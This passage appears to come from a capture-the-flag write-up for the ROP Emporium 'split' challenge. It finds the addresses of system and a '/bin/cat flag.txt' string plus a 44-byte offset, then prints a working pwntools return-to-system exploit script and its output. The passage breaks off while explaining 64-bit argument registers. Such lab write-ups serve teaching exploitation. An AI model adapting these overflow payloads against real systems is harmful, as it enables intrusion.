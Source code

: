 ```shell
gef➤  
```
`system@plt is at 0x8048430`

`"/bin/cat flag.txt" is at 0x0804a030`

Using the same technique detailed in ret2win, I used gdb gef to find that the offset to overwrite EIP is 44 bytes.

Writing a simple exploit script with the given information.
```python
  1 #!/usr/bin/env python
  2 
  3 from pwn import *
  4 
  5 context.log_level = 'critical'
  6 elf = ELF("./split32")
  7 
  8 system_addr = p32(0x8048430)
  9 bin_cat_addr = p32(0x0804a030)
 10 
 11 payload = "A"*44
 12 payload += system_addr
 13 payload += "BBBB"
 14 payload += bin_cat_addr
 15 
 16 sh = elf.process()
 17 
 18 sh.recvuntil("> ")
 19 sh.sendline(payload)
 20 
 21 print sh.recvall()
```

Running the script.
```shell
~/Documents/ropemporium/split/32split# chmod +x exploit.py && ./exploit.py
ROPE{a_placeholder_32byte_flag!}
```

### 64-bit
<a href="{{ page.url }}#title">Back to top ↑</a>

The 64-bit version is slightly more difficult because function arguments don't get passed through the stack anymore.

When a function is called, the function's arguments are passed in through 6 registers. The registers are (in order from the 1st to the 6th argument):

1. rdi
2. rsi
3. rdx
4. rcx
5. r8
6. r9
